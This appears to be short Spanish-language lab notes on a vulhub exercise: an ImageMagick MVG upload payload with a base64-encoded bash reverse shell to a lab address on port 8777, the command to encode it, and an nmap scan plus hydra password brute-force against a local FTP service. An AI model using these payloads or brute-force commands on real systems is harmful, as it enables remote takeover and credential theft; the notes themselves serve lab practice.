 ### Imagemagick - vulhub github

SImplemente subiomos un archivo malicioso después de haber echo fuzzing con extensiones de archivo a ver cuále sacepta con esta wordlist -->https://github.com/maverickNerd/wordlists/blob/master/files/common-files.txt

Subimos este código 

`push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg?`echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE3Mi4xOS4wLjEvODc3NyAwPiYx | base64 -d | bash`"||id " )'
pop graphic-context`

- Dónde lo que hay en base64 es
`/bin/bash -i >& /dev/tcp/172.19.0.1/8777 0>&1`

Así que utilizaremos echo -n para que no haya saltos de línea y lo meteremos al código anterior

`echo -n "/bin/bash -i >& /dev/tcp/172.19.0.1/8777 0>&1" | base64`

Nos ponemos en escucha, subimos archivo y powned
![[Pasted image 20250309173028.png]]

### FTP Vulnerable 

- sudo nmap -sVC -p21 127.0.0.1

Probamos a reventar la passwd suponiendo que nos sabemos el user

hydra -l sergio -P passwords.txt ftp://127.0.0.1 -t 15